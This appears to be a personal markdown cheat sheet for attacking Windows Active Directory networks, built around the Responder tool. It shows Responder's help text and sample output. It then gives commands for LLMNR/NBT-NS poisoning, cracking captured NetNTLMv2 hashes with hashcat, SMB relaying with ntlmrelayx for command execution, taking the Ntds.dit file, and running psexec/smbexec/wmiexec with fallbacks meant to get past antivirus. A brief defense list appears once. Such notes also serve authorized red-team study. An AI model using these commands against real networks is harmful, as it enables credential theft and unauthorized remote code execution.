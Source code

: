 # Responder 
## NBT-NS/LLMNR Responder

This tool is first an LLMNR and NBT-NS responder, it will answer to *specific* NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: http://support.microsoft.com/kb/163409). By default, the tool will only answers to File Server Service request, which is for SMB. The concept behind this, is to target our answers, and be stealthier on the network. This also helps to ensure that we don’t break legitimate NBT-NS behavior. You can set the -r option to 1 via command line if you want this tool to answer to the Workstation Service request name suffix.

```
root@kali:~# responder -h
Usage: python /usr/bin/responder -i 10.20.30.40 -b On -r On

Options:
-h, --help show this help message and exit
-A, --analyze Analyze mode. This option allows you to see NBT-NS,
BROWSER, LLMNR requests from which workstation to
which workstation without poisoning anything.
-i 10.20.30.40, --ip=10.20.30.40
The ip address to redirect the traffic to. (usually
yours)
-I eth0, --interface=eth0
Network interface to use
-b Off, --basic=Off Set this to On if you want to return a Basic HTTP
authentication. Off will return an NTLM
authentication.This option is mandatory.
-r Off, --wredir=Off Set this to enable answers for netbios wredir suffix
queries. Answering to wredir will likely break stuff
on the network (like classics 'nbns spoofer' will).
Default value is therefore set to Off
-f Off, --fingerprint=Off
This option allows you to fingerprint a host that
issued an NBT-NS or LLMNR query.
-w On, --wpad=On Set this to On or Off to start/stop the WPAD rogue
proxy server. Default value is Off
-F Off, --ForceWpadAuth=Off
Set this to On or Off to force NTLM/Basic
authentication on wpad.dat file retrieval. This might
cause a login prompt in some specific cases. Default
value is Off
--lm=Off Set this to On if you want to force LM hashing
downgrade for Windows XP/2003 and earlier. Default
value is Off
-v More verbose
responder Usage Example

Specify the IP address to redirect to (-i 192.168.1.202), enabling the WPAD rogue proxy (-w On), answers for netbios wredir (-r On), and fingerprinting (-f On):
```

## Usage Example
```
root@kali:~# responder -i 192.168.1.202 -w On -r On -f On
NBT Name Service/LLMNR Responder 2.0.
Please send bugs/comments to: lgaffie@trustwave.com
To kill this script hit CRTL-C

[+]NBT-NS &amp; LLMNR responder started
[+]Loading Responder.conf File..
Global Parameters set:
Responder is bound to this interface:ALL
Challenge set is:1122334455667788
WPAD Proxy Server is:ON
WPAD script loaded:function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "RespProxySrv")||shExpMatch(host, "(*.RespProxySrv|RespProxySrv)")) return "DIRECT"; return 'PROXY ISAProxySrv:3141; DIRECT';}
HTTP Server is:ON
HTTPS Server is:ON
SMB Server is:ON
SMB LM support is set to:OFF
SQL Server is:ON
FTP Server is:ON
IMAP Server is:ON
POP3 Server is:ON
SMTP Server is:ON
DNS Server is:ON
LDAP Server is:ON
FingerPrint Module is:ON
Serving Executable via HTTP&amp;WPAD is:OFF
Always Serving a Specific File via HTTP&amp;WPAD is:OFF
```

# Attacking:
### Data Store:
```
%SystemRoot%\NTDS\Ntds.dit
C:\Windows\NTDS\Ntds.dit
```
always check for this file and grab it. only accessible through the domian controller and contains everything in Active Directory. 


## LLMNR Poisoning: 
#### Responder:
gather hashes over the network passively 
```
sudo python /usr/share/responder/Responder.py -I eth0 -rdw -v 
```
```
-I interface
-r enable answers for netbios wredir suffix queries
-d enable answers for netbios domain suffix queries
-w start the WPAD rogue proxy server
-v verbose
```
save hashses to file called hashes.txt

#### Hashcat:
using the password file rockyou.txt and the NTLM module to crack passwords
```
hashcat -m 5600 hashes.txt rockyou.txt --force
```
using the password file rockyou.txt to crack passwords
```
hashcat -m 5600 hashes.txt rockyou.txt --force
```

$ hashcat --help | grep SHA

```
   5500 | NetNTLMv1                                        | Network Protocols
   5500 | NetNTLMv1+ESS                                    | Network Protocols
   5600 | NetNTLMv2                                        | Network Protocols
   1000 | NTLM                                             | Operating Systems
   7500 | Kerberos 5 AS-REQ Pre-Auth etype 23              | Network Protocols
  13100 | Kerberos 5 TGS-REP etype 23                      | Network Protocols
  18200 | Kerberos 5 AS-REP etype 23                       | Network Protocols
    100 | SHA1                                             | Raw Hash
  17400 | SHA3-256                                         | Raw Hash
  17500 | SHA3-384                                         | Raw Hash
  17600 | SHA3-512                                         | Raw Hash
```


##### LLMNR Poisoning Defense:
1. Disable LLMNR
2. Disable NBT-NS
3. Require Network Access Control
4. Require strong passwords (phrases) more than 14 characters


## SMB attacks: How do I get Victim to try connecting to attack machine SMB??
edit: /usr/share/responder/Responder.conf
```
SMB = Off
HTTP = Off
```
everything else stays on

#### NMAP
check for open SMB port and check for SMB signing
```
sudo nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24
```
look for smb2 enabled but not required (default for desktops)

### ntmlrelayx.py
1. installed with impacket
2. run while responder is running
```
ntmlrelayx.py -tf targets.txt -smb2support -i
```

```
-i interact
-e example.exe: execute example.exe
-c ls: run command ls
```
looking for it to dump SAM hashes or give you and SMB client shell for the known user. can use MSFvenom to create an executable payload and get reverse shell. or create a powershell script or CMD to run as a command to get a reverse shell or do something. 

#### connecting: requires having cracked a hash
1. can use MSFconsole to attack the tartget using exploit/windows/smb/psexec
2. if that is getting stopped by antivirus try psexec.py 
``` psexec.py <domain>.local/<user>:<password>@<ip-address> ```
3. if that is getting stopped by antivirus try smbexec.py 
``` smbexec.py <domain>.local/<user>:<password>@<ip-address> ```
4. if that is getting stopped by antivirus try wmiexec.py 
``` wmiexec.py <domain>.local/<user>:<password>@<ip-address> ```
5. there is also a powershell version of psexec and other options that might be able to do the same thing. 
